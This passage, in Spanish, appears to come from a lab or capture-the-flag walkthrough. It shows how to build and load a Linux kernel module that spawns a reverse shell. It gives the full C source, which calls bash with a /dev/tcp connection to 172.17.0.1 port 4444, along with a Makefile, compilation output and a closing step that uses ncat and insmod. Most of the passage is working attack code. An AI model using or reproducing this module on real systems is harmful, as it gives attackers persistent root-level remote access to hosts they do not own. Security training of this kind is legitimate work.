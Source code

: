 
```bash
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.1/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Seguidamente crearemos un archivo `makefile` con otro contenido especifico.

```bash
obj-m +=reverse-shell.o
all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

Despues ejecutaremos un `make` para compilarlo, este nos creara un archivo `.ko`.

```bash
root@b097fc57960e:/tmp# make
make -C /lib/modules/4.15.0-151-generic/build M=/tmp modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-151-generic'
  CC [M]  /tmp/reverse-shell.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /tmp/reverse-shell.mod.o
  LD [M]  /tmp/reverse-shell.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-151-generic'
root@b097fc57960e:/tmp# ls
Makefile		      gradle2795579439185181258.bin  gradle6644211106987001499.bin  gradle9039635524913268865.bin  hsperfdata_root  reverse-shell.ko	 shell.sh
Module.symvers		      gradle2983053951583899525.bin  gradle7006611085073049553.bin  gradle9084471384540617701.bin  linpeas.sh	    reverse-shell.mod.c
gradle1338051207622881975.bin  gradle3783653524079408204.bin  gradle7211342044412775236.bin  gradle9170701421662864177.bin  modules.order    reverse-shell.mod.o
gradle251280844494394051.bin   gradle4550055017114582402.bin  gradle8316659095765584843.bin  gradle984417515461424419.bin   reverse-shell.c  reverse-shell.o
```

finalmente debemos ponernos en escucha en el puerto especifico con `ncat` y ejecutar el `reverse-shell.ko` con `insmod`.
